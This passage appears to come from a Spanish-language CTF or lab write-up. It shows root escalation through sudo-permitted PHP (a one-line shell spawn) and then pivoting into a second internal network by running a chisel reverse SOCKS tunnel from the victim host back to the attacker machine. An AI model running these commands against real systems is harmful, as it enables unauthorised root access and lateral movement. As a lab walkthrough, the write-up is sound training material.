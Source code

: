 Vamos a escalar a este usuario.

## Escalada de privilegios

Ahora si hacemos un sudo -l vemos que podemos ejecutar el binario php como cualquier usuario, vamos a buscarlo en GTFObins

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/74c6c305-7884-46ce-806c-cd14a944dfeb)


Esta es la forma para poder escalar a root

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/29609b13-d1e1-4be0-ada6-a0eafedbfa45)

Lo que haremos sera lo siguiente:

```bash
sudo -u root /usr/bin/php -r "system('/bin/sh');"
```

Y nos convertiremos en root

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/07660f92-c1d3-490d-9e20-6996f4de7f53)

## Pivoting 1



Si hacemos un hostname -I vemos que hay otra interfaz de red la 20.20.20.2

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/dd387b38-3d03-4381-ada5-77d4682f0fec)

En este punto vamos a configurar el entorno de chisel para gestionar y reenviar los puertos de la 20.20.20.3 a nuestra maquina atacante.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/825fa826-2b95-456e-8393-72ad2e727dff)

Nos pasamos el chisel a la maquina 10.10.10.2.

Ahora desde la máquina atacante nos ponemos en escucha con chisel.

```bash
chisel server --reverse -p 1234
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f5068f1d-a073-4098-80f8-279bf537459c)

Y en la maquina victima con IP 10.10.10.2 configuramos el chisel para que podamos ver desde la maquina 10.10.10.1 la IP 20.20.20.2.

```
./chisel client 10.10.10.1:1234 R:socks
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/b75773e4-34cd-4ac2-b431-6bc929ed1fe1)

Perfecto ahora ya tenemos visibilidad de la maquina 20.20.20.2
